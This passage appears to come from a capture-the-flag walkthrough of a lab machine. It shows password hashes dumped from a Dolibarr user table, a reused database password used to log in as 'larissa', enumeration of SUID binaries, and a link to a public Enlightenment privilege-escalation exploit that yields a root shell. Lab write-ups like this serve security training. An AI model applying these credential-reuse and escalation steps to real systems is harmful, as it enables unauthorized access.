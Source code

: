 Got hash for dolibarr and admin user from llx_user table

```sql
select * from llx_user;
# dolibarr - $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
# admin - $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96
```

!!! tip

    Try any password found for other things as well

The mysql creds worked for larissa user.

```bash
su larissa
# Password: serverfun2$2023!!
```

ssh as larissa and got user flag

```bash
ssh larissa@10.10.11.11
cat user.txt
```

look for suid binaries

```bash
find / -perm -4000 -type f 2>/dev/null
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
```

There is another script to search for local privilege escalation vectors
[LinPEAS](https://github.com/peass-ng/PEASS-ng)
Running the script gave below output

```
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
 binary!)
```

enlightenment exploit
[available](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)

Ran the script to get root shell


## Mailing
